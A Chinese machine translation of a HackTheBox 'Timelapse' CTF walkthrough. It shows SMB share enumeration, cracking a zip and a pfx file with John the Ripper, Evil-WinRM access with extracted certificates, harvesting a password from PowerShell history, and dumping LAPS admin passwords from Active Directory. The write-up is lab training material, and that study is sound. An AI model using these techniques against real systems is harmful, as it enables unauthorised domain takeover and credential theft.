



# 黑客盒子的延时——详细演练

> 原文：<https://infosecwriteups.com/timelapse-from-hackthebox-detailed-walkthrough-5b36f5cde290?source=collection_archive---------3----------------------->

## 向您展示完成盒子所需的所有工具和技术。

# 机器信息


黑客盒子的延时

《延时》被评为 HackTheBox 上的简易机。这个 Windows 机器有许多开放的端口，但我们的时间主要花在 SMB 的 445 端口和 WinRM 的 5986 端口上。使用 SMBClient，我们找到几个打开的共享，从那里我们检索一个备份文件。在破解了 zip 文件和其中的 pfx 文件之后，我们使用 Evil-WinRM 来获得一个远程连接。WinPEAS 帮助我们找到一个带有凭据的文件。与新用户交换，我们为管理员转储一个 LAPS 密码，并完成这个框。

所需的技能主要是关于共享和 Windows 文件系统的枚举。学习的技能是转换和破解不同的文件类型，使用邪恶的 WinRM 和 LAPS。

# 初步侦察

像往常一样，让我们从 Nmap 开始:



盒子的 Nmap 扫描

# SMB 客户端

这是一个打开了 445 端口的 Windows 盒子，让我们来看看共享:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# smbclient -L 10.10.11.152
Enter WORKGROUP\roots password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share
```

# SMBMap

我们可以看到一个开放的共享，您可以使用 smbmap 列出我们可以访问的所有内容，而不是手动查看:



显示可访问文件列表的 smbmap

备份文件通常是一个很好的地方。让我们获取 winrm zip 文件:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# smbclient \\\\10.10.11.152\\Shares
Enter WORKGROUP\roots password: 
smb: \> cd Dev
smb: \Dev\> dir
  winrm_backup.zip          A     2611  Mon Oct 25 16:46:42 2021
            6367231 blocks of size 4096\. 1076764 blocks available

smb: \Dev\> get winrm_backup.zip
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip
(0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
smb: \Dev\> exit
```

不幸的是，我们发现这是一个受密码保护的压缩文件:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# unzip winrm_backup.zip                               
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

# zip 文件哈希破解

使用 zip2john 脚本创建一个我们可以尝试破解的哈希文件:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# zip2john winrm_backup.zip > winrm.hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8

┌──(root💀kali)-[~/htb/timelapse]
└─# cat winrm.hash      
winrm_backup.zip/legacyy_dev_auth.pfx:$pkzip$1*1*2*0*965*9fb*12ec568
c88a3cec7243acf179b842f2d96414d306fd67f0bb6abd97366b7aaea736a0<SNIP>
82727976b2243d1d9a4032d625b7e40325220b35bae73a3d11f4e82a4085f9<SNIP>
7b7e506452f76*$/pkzip$:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip
```

现在我们可以试着用 JohnTheRipper 和 rockyou 单词表来破解:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt winrm.hash  
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:03 DONE (2022-04-09 22:31) 0.2583g/s 897521p/s 897521c/s 897521C/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

只需要几秒钟就能得到密码。让我们解压文件，看看里面的内容:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# unzip winrm_backup.zip                                  
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```

# PFX 文件哈希破解

我们有一份档案里的 pfx 文件。如果你以前没有使用过 pfx 文件，那么[这个](https://www.howtouselinux.com/post/pfx-file-with-examples)是有帮助的。最后一节解释了如何从 pfx 文件中提取私钥。但是，如果我们尝试，我们会发现这也需要一个密码:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
Mac verify error: invalid password?
```

让约翰来破解这个。首先将 pfx 文件转换成一个 John 友好的散列:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# pfx2john legacyy_dev_auth.pfx > pfx.hash

┌──(root💀kali)-[~/htb/timelapse]
└─# cat pfx.hash
legacyy_dev_auth.pfx:$pfxng$1$20$2000$20$eb755568327396de179c4a5d
668ba8fe550ae18a$3082099c3082060f06092a864886f70d010701a082060004
8205fc308205f8308205f4060b2a864886f70d010c0a0102a08204fe308<SNIP>
23b99e245b03465a6ce0c974055e6dcc74f0e893:::::legacyy_dev_auth.pfx
```

再次用 rockyou 点燃 JohnTheRipper:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt pfx.hash      
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for statusthuglegacy       (legacyy_dev_auth.pfx) 1g 0:00:00:42 DONE (2022-04-09 22:45) 0.02346g/s 75826p/s 75826c/s 75826C/s thuglife06..thsco04
Session completed.
```

几秒钟后我们会有另一个密码。现在我们有了密码，让我们提取私钥:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

对于 PEM 密码短语，您可以将其设置为任何值，我使用的是 1234。

我们还需要证书和私钥。再次使用我们从 John 处获得的相同密码:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out pfx.crt
Enter Import Password:
```

# Evil-WinRM 作为用户合法身份

现在我们有了使用 Evil-WinRM 连接所需的所有文件:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -c ./pfx.crt -k ./priv.key -p -u -S 
Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents>
```

# 用户标志

使用我们之前设置的 PEM 密码 1234，我们现在连接上了。我先得到了用户标志:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> type ..\desktop\user.txt
e9fd75b313ffaa4e72f06e32dffc6f96
```

# WinPEAS

然后我用 [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) 寻找有趣的东西:



下载最新版本的 winPEAS

我们可以使用我们的连接会话来上传文件:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> upload /root/htb/timelapse/winPEAS.bat
Info: Uploading /root/htb/timelapse/winPEAS.bat to C:\Users\legacyy\Documents\winPEAS.bat
Enter PEM pass phrase:
Data: 47688 bytes of 47688 bytes copied
Info: Upload successful!
```

bat 文件可以运行，但是输出有点混乱。尽管如此，翻阅一下我们还是发现了一些有趣的事情:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> .\winPEAS.bat

<SNIP>
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft Services\AdmPwd
    AdmPwdEnabled    REG_DWORD    0x1
[i] Active if "1"

<SNIP>
Checking PS history file
 Volume in drive C has no label.
 Volume Serial Number is 22CC-AE66
 Directory of C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
03/04/2022  12:46 AM               434 ConsoleHost_history.txt
               1 File(s)            434 bytes
               0 Dir(s)   6,101,368,832 bytes free
```

ConsoleHost_history.txt 文件包含我们所连接的用户运行的命令:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txtwhoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

正如 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools) 备忘单上注明的，这是需要检查的众多文件之一。由此我们有了一个新用户 svc_deploy 和一个密码。我们还看到他们查看了 AD 中的所有用户，快速检查显示有不少用户:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> get-aduser -filter * | select samaccountname
Enter PEM pass phrase:

samaccountname
--------------
Administrator
Guest
krbtgt
thecybergeek
payl0ad
legacyy
sinfulz
babywyrm
svc_deploy
TRX
```

# Evil-WinRM 作为用户 SVC_Deploy

作为当前用户，我不能做太多，让我们切换到我们找到的 svc_deploy 帐户:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> exit
Enter PEM pass phrase:
Info: Exiting with code 0

┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

# 膝

我花了一段时间环顾四周，没有什么明显的跳出来。回头看看 WinPEAS 的输出，我们发现 LAPS 安装在注册表中。我们还看到，服务台开始时有 LAPS 安装文档和文件。然后这个盒子的名字就有意义了时间流逝！

LAPS 管理本地管理员密码，以设定的频率轮换它。[这个](https://www.recastsoftware.com/resources/overview-of-microsoft-laps-local-administrator-password-solution/)是所有事物圈的向导。我还发现[这个](https://smarthomepursuits.com/export-laps-passwords-powershell/)很有帮助，从那以后我就把广告里的圈数密码给转走了:

```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> get-adcomputer -filter * -properties ms-mcs-admpwd | select name,ms-mcs-admpwd

name  ms-mcs-admpwd
----  -------------
DC01  1;s(T[,8/k6k8+n1e8Jh+Q@r
DB01
WEB01
DEV01
```

检查我们在哪个服务器上，我们发现它是 DC01:

```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> hostname
dc01
```

# 根标志

我们有本地管理员密码，我们知道我们在与之相关的 DC01 箱上。让我们跳出这个外壳，以管理员身份连接:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -u Administrator -p '1;s(T[,8/k6k8+n1e8Jh+Q@r' -S       

Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

让我们抓住根旗来完成这个盒子:

```
*Evil-WinRM* PS C:\Users> type trx\desktop\root.txt
3b0e8ff4e0ba0e044abaf52dd07d342d
```

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 8 月 22 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-timelapse/)*。*

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！